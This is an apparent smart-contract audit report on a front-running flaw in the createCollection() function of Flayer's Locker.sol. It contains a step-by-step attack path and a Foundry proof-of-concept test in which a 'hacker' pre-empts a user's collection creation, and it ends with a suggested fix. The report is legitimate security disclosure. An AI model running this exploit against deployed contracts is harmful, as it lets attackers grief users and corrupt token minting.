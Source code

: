 Quick Honey Dove

Medium

# FrontRunning on `createCollection()` function in Locker.sol

### Summary

The `createCollection()` function calls the cloneDeterministic from LibClone, which use the create2 opcode.
This method has a salt param in it.
A bad actor, can frontrun every single transaction, from other users, and call create2 using the same salt parameter.


### Root Cause

In [`Locker.sol:299`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L299) there is a call to LibClone.cloneDeterministic() function.
As explained, this function get a salt parameter to clone a certain contract.
At this point, every function can be frontrunner by a bad actor checking the mempool.
The bad actor can send a transaction passing the same salt parameter, with a higher than the user.
The bad actor creates the new collectionTokens, with arbitrary data and the user transaction will goes in revert.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1) User1 want to call the createCollection() function in locker.sol passing the following parameters:
    address collection =>0x123... 
    string name => "Mock",
    string symbol => "MOCK",
    uint256 denominator = 9
    
2) The hacker is checking the mempool and sees the transaction.

3) Hacker copies the transaction from the mempool changing:
   
    address collection =>0x123...         //SAME
    string name => "SCAMSCAM",     //DIFFERENT
    string symbol => "SCAM",            //DIFFERENT
    uint256 denominator = 0              //DIFFERENT

 and send it with a higher gas.
 
 
4) The Hacker tx has been executed before the user1 transaction.

5) The User1 tx goes in revert.


### Impact

Every single call to createCollection() function can be frontrunned.
At this point, the denominator has a crucial role in minting the ERC20 collectionTokens, and the possibility to frontrun this function, can open to possible bugs likes:

1) Wrong amount of tokens minted per deposit.
2) User, could initialize the "wrong" collection and send NFTs to that.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.22;

import {StdCheats} from "forge-std/Test.sol";
import {ProxyAdmin, ITransparentUpgradeableProxy} from "@openzeppelin/contracts/proxy/transparent/ProxyAdmin.sol";
import {TransparentUpgradeableProxy} from "@openzeppelin/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";
import {CollectionToken} from "@flayer/CollectionToken.sol";
import {FlayerTest, ERC721Mock} from "../lib/FlayerTest.sol";
import "forge-std/console.sol";

contract CollectionTokenProxyFlyerTest is FlayerTest {
    address payable internal _proxy;
    ProxyAdmin internal _proxyAdmin;

    CollectionToken internal _collectionTokenV1Impl;
    CollectionToken internal _collectionTokenV1;
    TransparentUpgradeableProxy _collectionTokenV1Proxy;

    // Address that interacts
    address owner;
    address user1;
    address user2;
    address hacker;


    function setUp() public {
        owner = vm.addr(4);
        user1 = vm.addr(1);
        user2 = vm.addr(2);
        hacker = vm.addr(3);

        vm.deal(owner, 1000 ether);
        vm.deal(user1, 1000 ether);
        vm.deal(user2, 1000 ether);
        vm.deal(hacker, 1000 ether);


        _deployPlatform();


        vm.startPrank(user1);
        WETH.deposit{value:10 ether}();
    }




    function test_frontRunCreateCollection()public{

        // User 1 Deploy and mint 10 Mock Tokens
        vm.startPrank(user1);
        erc721a = new ERC721Mock();
        for(uint i = 0; i < 10; i++){
            erc721a.mint(user1, i);
        }

        // erc721a id 10 For the hacker
        erc721a.mint(hacker, 10);
        vm.stopPrank();



        // Let's suppose a front run scenario where the 2 tx run together
        // Hacker Frontrun the creations of collections from the user1 setting "wrong" parameters
        
        vm.startPrank(hacker);
        address newHackerCollection = locker.createCollection(address(erc721a), "SCAMMY", "SCAM", 0);
        console.log("Hacker Collection", newHackerCollection);
        vm.stopPrank();



        //User 1 has been Frontrunned in creating the collection
        
        vm.startPrank(user1);
        vm.expectRevert(0xd7feb16d);
        locker.createCollection(address(erc721a), "Mock", "MOCK", 9);


        
        uint256[] memory path = new uint256[](10);

        for(uint i = 0; i < 10; i++){
            path[i] = i;
            erc721a.approve(address(locker), i);
        }

        WETH.approve(address(locker), 10 ether);


        // User1 will initialize the "Wrong" collection and mint the wrong amount of tokens due to 0 as denomination
        
        locker.initializeCollection(address(erc721a), 0.05 ether, path, path.length * 1 ether, 4306310044);
    }
}

```

### Mitigation

To mitigate this, you can simply add the msg.sender to the `salt`argument passed to cloneDeterministic.